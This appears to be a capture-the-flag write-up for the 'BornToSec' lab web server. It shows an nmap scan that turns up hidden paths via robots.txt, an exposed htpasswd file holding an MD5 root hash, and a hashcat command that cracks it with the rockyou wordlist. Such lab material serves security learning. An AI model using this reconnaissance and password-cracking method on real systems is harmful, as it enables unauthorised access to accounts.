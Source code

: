 nmap -v -A -T4 192.168.56.103

	We find 2 directories.
		PORT   STATE SERVICE VERSION
		80/tcp open  http    nginx 1.4.6 (Ubuntu)
		|_http-favicon: Unknown favicon MD5: E7D08792AE6EC9DBBF3CEBFB48EE4057
		| http-methods:
		|_  Supported Methods: GET HEAD POST
		| http-robots.txt: 2 disallowed entries
		|_/whatever /.hidden
		|_http-server-header: nginx/1.4.6 (Ubuntu)
		|_http-title: BornToSec - Web Section
		Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	In whatever there is a htpasswd file that contain:
	root:437394baff5aa33daa618be47b75cb49

	https://httpd.apache.org/docs/2.4/fr/programs/htpasswd.html
	https://defendtheweb.net/discussion/1159-bypassing-htaccesshtpasswd-based-authentication

	It looks like MD5, we can try to bruteforce it with hashcat and rockyou:
	hashcat -m 0 -a 0 hash ~/sgoinfre/SecLists/Passwords/Leaked-Databases/rockyou.txt --force
	We find:
	437394baff5aa33daa618be47b75cb49:qwerty123@
	We can't connect to this in login page but there is an admin connect page

